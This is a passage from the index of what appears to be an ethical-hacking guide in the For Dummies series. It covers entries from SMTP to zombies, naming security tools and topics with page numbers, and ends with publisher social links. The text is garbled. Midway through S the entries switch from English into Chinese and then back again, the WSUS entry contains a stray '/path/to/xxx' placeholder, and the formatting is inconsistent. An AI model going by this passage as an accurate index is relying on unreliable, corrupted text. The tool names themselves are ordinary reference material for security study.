     3.  e-mail header disclosures, 266–267

     4.  malware, 268

     5.  relay, 263–266

64. SMTP command, 137

65. smtpscan (website), 259, 362

66. Smurf (website), 357

67. Snare (website), 233

68. SNARE (website), 365

69. sniffdet (website), 115, 146, 365

70. Sniffer tool, 140

71. sniffing, defined, 140

72. SNMP (Simple Network Management Protocol), 135–137

73. SNMPUTIL (website), 135

74. Social Engineer Toolkit (website), 368

75. social engineering 

     1.  about, 14, 67–68

     2.  countermeasures, 80–82

     3.  cracking passwords with, 99–100

     4.  implementing attacks, 75–79

     5.  implications of, 70–74

     6.  tests, 68–69

     7.  tools and resources, 368

     8.  why attackers use, 69–70

76.  social engineering attacks, performing 

     1.  about, 74–75

     2.  building trust, 71–72

     3.  exploiting relationship, 72–74

     4.  seeking information, 75–79

77.  social media, 62

78.  SoftPerfect Network Scanner (website), 22, 55, 204, 365, 373

79.  software 

     1.  for minimizing e-mail security threats, 269

     2.  password-cracking, 102–105

     3.  unauthorized, 27

80.  SolarWinds Network Configuration Manager (website), 139

81.  SonarQube (website), 300, 369

82.  SonicWALL (website), 365

83.  source code, analyzing, 300–301, 369

84.  SourceForge (website), 229, 361

85.  Spector 360 (SpectorSoft), 112

86.  Spirion (website), 369

87.  sponsorship, 18, 341

88.  SQL Inject Me (website), 289, 372

89.  SQL injection, 27, 287–289

90.  SQL Power Injector (website), 289, 372

91.  SQLPing3, 104, 304, 305, 358, 367

92.  SSH (Secure Shell), 171

93.  SSID (service set identifier), 163

94.  SSL (HTTPS), 156

95.  SSL Labs (website), 156


96. SSL/TLS (Secure Sockets Layer/Transport Layer Security) 171

97. 统计，关于工具和资源 369

98. 密码存储 104, 113–114, 118

99. 邮件存储过载 255

100. 存储系统 

      1. 关于 308

      2. 选择用于安全测试的工具 309

      3. 在网络文件中查找敏感文本 310–312

      4. 最小化安全风险 312–313

      5. 工具和资源 369

101. 支持人员，错误 68

102. SUSE 248

103. .swf 文件 63

104. 交换机 63, 115

105. Symantec（网站） 246

106. Symantec PGP（网站） 370

107. SYN 洪水 153

108. SYN Stealth 扫描 133

109. Synful Knock Scanner（网站） 153, 365

110. Sysinternals（网站） 204, 373

111. 系统崩溃 17–18

112. 系统加固 326–327, 369–370

113. 系统日志，启用 333

114. 系统恢复（Elcomsoft） 102, 188, 363, 366

115. 系统扫描 205–207, 229–234

116. 系统 

      1. 选择要黑客攻击的目标 40–41

      2. 加固 326–327, 369–370

      3. 渗透 58

      4. 扫描 52–53

### T

1. 表格，破解 193–198

2. TamoSoft 

      1. CommView 115, 128, 141, 161, 275, 370, 373

      2. Essential NetTools 135, 364, 365

      3. NetResident 144, 267, 364

3. tarpitting 258

4. 任务特定工具 204–205

5. TCP（传输控制协议） 54, 129

6. TCP Wrapper 238

7. *TCP/IP For Dummies*，第 6 版（Leiden and Wilensky） 126

8. TCP/UDP 端口 54

9. TCPView（网站） 204

10. 技术密码漏洞 97–98

11. 技术图标 3

12. TechSmith's Camtasia Studio（网站） 45

13. telnet（telnetd） 137, 230

14. 术语 7–9

15. 恐怖分子 30

16. 测试 

      1. 关于 49

      2. 服务拒绝（DoS）攻击 152–155

      3. 电子邮件头泄露 266–267

      4. 文件权限黑客 243–244

      5. 防火墙规则 138–140

      6. 外包 355

      7. 用于 SMTP 中继的服务器 263–266

      8. 社会工程 68–69

      9. 标准 43–47

     10. 存储系统安全 309

17. THC-Amap（网站） 361

18. THC-Hydra（网站） 103, 295, 367, 372

19. theHarvester（网站） 360, 362

20. 3M Privacy Filters（网站） 100, 363

21. Tiger（网站） 361

22. Tiger 安全审计工具 247

23. tiger team 39

24. 计时，在伦理黑客测试中 43–44

25. Tip 图标 3

26. TLS（传输层安全） 156

27. 工具和资源 

      1. 高级恶意软件 357

      2. 一站式评估 204

      3. Bluetooth 357

      4. 认证 358

      5. 用于破解笔记本电脑密码 188–193

      6. 数据库 358

      7. 用于网络基础设施的伦理黑客攻击 127–128

      8. 一般性研究 359–360

      9. 黑客材料 360

     10. 键盘记录器 360

     11. 法律和法规 361

     12. Linux 361

     13. 即时工具包 362

     14. 日志分析 362

     15. 消息传递 362

     16. Microsoft 203–205

     17. 杂项 363

     18. 移动 363

     19. 网络 363–365

     20. 密码破解 365–367

     21. 补丁管理 367

     22. 端口扫描 129–135

     23. 安全教育和学习资源 368

     24. 安全方法和模型 368

     25. 选择 20–21

     26. 社会工程 368

     27. 源代码分析 369

     28. 统计 369

     29. 存储 369

     30. 系统加固 369–370

     31. 任务特定 204–205

     32. 用于测试存储系统安全 309

     33. 用户意识和培训 370

     34. 使用正确的 354

     35. VoIP（互联网协议语音） 370–371

     36. 漏洞数据库 371

     37. 用于 Web 应用 278–279

     38. 网站和应用 371–372

     39. Windows 373

     40. 无线网络 373–374

28. top talkers 144

29. 流量，捕获 267, 273–275

30. Traffic IQ Professional（idappcom） 365

31. 培训，作为对社会工程的对策 80–82

32. Transmission Control Protocol（TCP） 54, 129

33. Transport Layer Security（TLS） 156

34. Tripwire 244

35. TrueCrypt 192

36. 信任，在社会工程攻击中构建 71–72

37. 可信度 17

38. Twitter（网站） 62

39. *2600-The Hacker Quarterly*（杂志） 35, 360

### U

1. UDP（用户数据报协议） 129

2. UDP 扫描 133

3. UDPFlood（网站） 154, 365

4. UEFI（统一可扩展固件接口） 116


5.  未经认证的枚举，208–210

6.  未经授权的软件，27

7.  统一可扩展固件接口 (UEFI)，116

8.  美国专利和商标局 (网站)，360

9.  美国州级数据泄露通知法律 (网站)，361

10.  UNIX 变体 

     1.  使用 John the Ripper 破解密码，109–110

     2.  加固，122

     3.  密码存储位置，104

11.  UNIX 系统，MAC 地址伪造在，150

12.  不安全的接口，155–156

13.  不安全的登录机制，293–297

14.  up2date，248

15.  高层管理支持，341–346

16.  URL 操作，284–286

17.  美国政府 (网站)，66

18.  US Search.com (网站)，360

19.  美国证券交易委员会 (网站)，64，75，360

20.  US-CERT 漏洞备注数据库 (网站)，56，371

21.  用户意识与培训，370

22.  用户数据报文协议 (UDP)，129

23.  用户密码漏洞，96–98

24.  公用程序，物理安全漏洞，87–88

### V

1.  值，显示，346

2.  供应商，错误，68

3.  Veracode (网站)，363

4.  Verizon 数据泄露调查报告 (网站)，12，95，342，369

5.  虚拟专用网络 (VPN) 服务，54

6.  VirtualBox (网站)，52

7.  Visio，328

8.  Visual Code Grepper (网站)，300，369

9.  VMware Workstation Pro (网站)，52

10.  VNC (网站)，91

11.  互联网协议语音 (VoIP) 

     1.  关于，270–271

     2.  针对漏洞的对策，275

     3.  工具和资源，370–371

     4.  漏洞，272–273

12.  语音流量，273–275

13.  VoIP (互联网协议语音) 

     1.  关于，270–271

     2.  针对漏洞的对策，275

     3.  工具和资源，370–371

     4.  漏洞，272–273

14.  *VoIP For Dummies* (Kelly)，271

15.  VoIP Hopper (网站)，272，371

16.  VoIP 服务器，77

17.  vomit (网站)，275，371

18.  VPN (虚拟专用网络) 服务，54

19.  `VRFY` 命令，261–263

20.  漏洞。*另见* 风险 

     1.  评估，56–57

     2.  数据库，306–307

     3.  消除，352–353

     4.  Linux，228

     5.  消息系统，253–254

     6.  移动设备，187–188

     7.  网络基础设施，126–127

     8.  密码，96–98

     9.  优先级，319

    10.  响应，46

    11.  SNMP，135–136

    12.  Web，279–298

    13.  Windows (Microsoft)，202–203

    14.  无线网络，159–160

21.  漏洞测试，1

### W

1.  警告! 图标，3

2.  WatchGuard (网站)，300，313

3.  弱 BIOS 密码，116

4.  弱密码存储，113–114

5.  Web 访问控制，绕过，27

6.  Web 爬虫，63–64

7.  Web 开发者 (网站)，278，298

8.  Web 搜索，62–63

9.  WebGoat (网站)，372

10.  WebInspect，371

11.  网站和应用程序 

     1.  关于，277–278

     2.  cantennas，162

     3.  选择 Web 应用工具，278–279

     4.  用于获取公开信息，64

     5.  黑客视角，353

     6.  可启动的 Linux 工具包，160

     7.  最小化安全风险，298–301

     8.  工具和资源，371–372

     9.  受 SNMP 漏洞影响的供应商和产品，135–136

    10.  漏洞，279–298

12.  Wellenreiter (网站)，160，374

13.  WEP (Wired Equivalent Privacy)，167–170

14.  WEPCrack (网站)，167，374

15.  WhatIsMyIP (网站)，53，360，365

16.  Where Does This Link Go? (网站)，368

17.  白帽 (好人) 黑客，9，29

18.  Whois，52，65–66，360

19.  WiFi。*另见* 无线局域网 (WiFi)

20.  WiFi Pineapple (网站)，165，374

21.  Wi‑Fi Protected Access (WPA)，167–170

22.  Wi‑Fi Protected Setup (WPS)，172–174

23.  WiFinder (网站)，374

24.  WiGLE 数据库 (网站)，162，374

25.  Wilensky, Marshall (作者) 

     1.  *TCP/IP For Dummies*，第 6 版，126

26.  WinAirsnort (网站)，374

27.  Windows (Microsoft) 

     1.  关于，201–202

     2.  检查共享权限，215–217

     3.  选择工具，203–205

     4.  使用 pwdump3 和 John the Ripper 破解密码，107–109

     5.  检测空闲会话，210–215

     6.  利用未打补丁的漏洞，217–225

     7.  MAC 地址伪造在，150–151

     8.  执行经过身份验证的扫描，225–226

     9.  加固，121–122

    10.  安全，219

    11.  密码存储位置，104

    12.  工具和资源，373

    13.  漏洞，202–203

28.  Windows 7，211，215

29.  Windows 8，211

30.  Windows 10，211，219

31.  Windows 2000/NT，216

32.  Windows 注册表，150–151

33.  Windows Server 2008，211

34.  Windows Server 2008/R2，215

35.  Windows Server 2016，214


36. Windows Server Update Services (WSUS), `/path/to/xxx`, `326`, `367`

37. Windows Update, `326`

38. Windows XP, `216`

39. Winfo (website), `205`, `213`, `373`

40. WinHex (website), `120`, `189`, `292`, `367`, `369`

41. WinMagic (website), `93`, `246`, `370`

42. WinMagic SecureDoc (website), `193`

43. WinNuke, `153`

44. WinZip (website), `363`

45. Wired Equivalent Privacy (WEP), `167`–170

46. wireless LANs (WiFi) 

     1. about, `159`

     2. attacks and countermeasures, `165`–186

     3. choosing tools, `160`–162

     4. discovering, `162`–164

     5. implications of vulnerabilities, `159`–160

47. wireless networks, tools and resources, `373`–374

48. `Wireless Networks For Dummies` (Davis and Lewis), `184`

49. Wireless Security Auditor (Elcomsoft), `161`, `172`, `373`

50. wireless workstations, `185`

51. Wireshark (website), `53`, `115`, `128`, `141`, `365`

52. WPA (Wi-Fi Protected Access), `167`–170

53. WPS (Wi-Fi Protected Setup), `172`–174

54. WSDigger (website), `298`, `372`

55. WSFuzzer (website), `372`

56. WSUS (Windows Server Update Services), `225`, `326`, `367`

1. xinetd program, `236`–237

2. Xmas Tree scan, `133`

3. XSS (cross-site scripting), `289`–290

4. XSS-Me Firefox Add-on (website), `290`

1. Yahoo! Finance (website), `75`, `360`

2. YouTube (website), `62`

### Z

1. ZabaSearch (website), `64`, `360`

2. zombies, `74`

     

Take Dummies with you everywhere you go!


Go to our [`Website`](http://www.dummies.com)


Like us on [`Facebook`](http://www.facebook.com/fordummies)


Follow us on [`Twitter`](http://www.twitter.com/fordummies)


Watch us on [`YouTube`](http://www.youtube.com/user/fordummies)


Join us on [`LinkedIn`](http://www.linkedin.com/groups?home=&gid=3229946&trk=anet_ug_hm)


Pin us on [`Pinterest`](http://pinterest.com/fordummies/)


Circle us on [`google+`](https://plus.google.com/105265587979403653723)


Subscribe to our [`newsletter`](http://www.dummies.com/go/newsletter)


Create your own [`Dummies book cover`](http://covers.dummies.com/)


[Shop Online](http://dummiesmerchandise.com)


## WILEY END USER LICENSE AGREEMENT

Go to [`www.wiley.com/go/eula`](http://www.wiley.com/go/eula) to access Wiley’s ebook EULA.

